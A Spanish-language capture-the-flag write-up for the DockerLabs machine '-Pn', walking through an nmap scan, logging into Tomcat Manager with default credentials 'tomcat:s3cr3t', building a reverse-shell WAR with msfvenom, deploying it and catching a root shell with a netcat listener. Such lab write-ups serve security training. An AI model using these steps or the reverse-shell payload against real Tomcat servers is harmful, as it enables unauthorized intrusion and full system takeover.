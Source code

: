 ```yaml
---
title: -Pn - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | ElPinguinoDeMario | 

## Escaneo y Reconocimiento de puertos

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap.

![image](https://github.com/romabri/romabri.github.io/assets/51706860/4b79a6f1-4bf2-4e43-b435-78036aba152f)

Si vamos a Manager Apps nos pide un usuario y una contraseña 

Vamos a buscarlo en HackTricks y encontramos una serie de contraseñas default y esta funciona tomcat:s3cr3t

![image](https://github.com/romabri/romabri.github.io/assets/51706860/8a4495b5-6b5e-45f6-82ac-79dadfacf490)

Para explotar tomcat usaremos un archivo war que nos devolverá una reverse shell.

Para hacer esto lo generamos asi 

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST_IP> LPORT=<LHOST_IP> -f war -o revshell.war`

Ahora le damos a browse, seleccionamos el archivo war que hemos generado y le damos a deploy.

Nos ponemos en escucha con net cat

`nc -lvnp [Puerto]`

Si le damos click ahí nos va a mandar la reverse shell

![image](https://github.com/romabri/romabri.github.io/assets/51706860/fab93ba3-6a51-4c1a-b519-5fb73c48cc1f)

Al recibir la conexión ya seremos ROOT

![image](https://github.com/romabri/romabri.github.io/assets/51706860/680934d5-7a40-4c35-bae1-cd53a7033fbe)

